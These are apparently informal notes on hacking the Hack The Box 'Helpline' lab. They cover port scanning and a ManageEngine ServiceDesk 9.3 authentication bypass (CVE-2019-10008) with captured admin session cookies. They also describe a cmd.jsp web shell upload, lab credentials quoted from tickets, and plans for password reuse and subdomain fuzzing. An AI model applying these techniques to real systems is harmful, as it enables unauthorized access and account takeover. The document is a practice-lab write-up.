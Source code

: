 nmap revealed ports 8080 135,445 smb. port 8080 is hosting manageEngine serviceDesk plus version 9,3 which is vulnerable to a suer enumeration techqniue. 

```
# Nmap 7.70 scan initiated Sun May 12 14:00:25 2019 as: nmap -sC -sV -Pn -p135,445,8080 -oA nmap/totaly 10.10.10.132
Nmap scan report for helpline.htb (10.10.10.132)                                          
Host is up.

PORT     STATE    SERVICE      VERSION
135/tcp  filtered msrpc
445/tcp  filtered microsoft-ds
8080/tcp filtered http-proxy
```

```

```

the site has two differn't login portals one for your typical browser the toher for mobile logins. apparently when you login in through the browser portal it will automatically log you in from the mobile site. 

LuisRibeiro

administrator

the method described in 46*.txt doesn't work but i can see a user being logged in just going to the mobile app and logging in is bad xD. 

```
searchsploit manageengine
```

so after using searchsploit we find a a clue to a python exploit that takes advantage a cookie juggling xD im not sure if this is written in php. same thing.  Just need to change the host varliable. 

CVE-2019-10008

https://github.com/FlameOfIgnis/CVE-2019-10008

now i need away to get remote execution. 

http://flameofignis.com/2019/03/30/ServiceDesk-9-3-Auth-Bypass-CVE-2019-10008/

CVE-2019-10273 

![request](C:\Users\charl\OneDrive\Pictures\hackthebox\helpline\request.PNG)

1 ) i would like to note that most likely 

```
 Please can you set up the FTP connection for AFB bank
 response :		FTP access has been set up for Alpha First Bank.

Please send them the details below:

alphafirst
BWtwhrC65c
```

```
from : stephen ellis
to: 
I'm working from home today and my MegaBank Remote login isn't working. I think my password expired over the weekend, please can you reset it to Megabank1

Thanks!
```

```
stephen ellis password expired on megabank 
mary wong
fiona drake
anne sergeant
luis ribeiro
```

some idea's at this point in the ticket system the attachment's may not work for x reason. they may also work. If i cannot rce, then it might be password reuse and ill gain access to smb. also i have not scanned udp yet. 

there didn't seem to be a problem when i upload the cmd.jsp shell. just check and make sure they are being uploaded. like most of the machine

so a guy doing the box found a 0-day. pretty ballar, appartently there is a juggling thing going on where the cookies mean the samething. 

```
Url: http://10.10.10.132:8080                                                             
User with low priv: guest:guest                                                           
User to bypass authentication to: administrator                                           
Getting a session id
Sessid:                                                                                   
D935001021F1303BDA00F14A2D79E2FA                                                          
Logging in with low privilege user                                                        
Captured authenticated cookies.                                                           
BED8DBC955275BF232F42042613E823C                                                          
8D483E6AB9D79DC4368A73F4150F4E2E                                                          
Captured secondary sessid.                                                                
2D2A2F6084D86023C5DD3D0FE6D7C6B9                                                          
Doing the magic step 1.                                                                   
Doing the magic step 2.
Captured target session.Set following cookies on your browser.                            
JSESSIONID=3492E78EBD38D6780D891236F66E8CFE
JSESSIONIDSSO=07E42AD2A6F7FD7E17921038D6596248                                            
febbc30d=1e24dbd550de40abbfd60ee6b85b309a                                                 
mesdp6d8a1036e4=d26725ef1d8f9e70a64d30c09dba0cd0d0cea6de                                  
_rem=true 
```

after logging intot he admin console i went to user>requesters and found the login names. the first name of the usrs lol.

![login name](login name.PNG)

you will notice under the login name column we see the usernames. we also see the employee id number which would be useful in a real sinario. 

![user-requesters](user-requesters.PNG)

stephen![stephen](stephen.PNG)

![tech-users](tech-users.PNG)

hmmm. 

i think we should check for subdomains real quick just to make sure using wfuzz. 

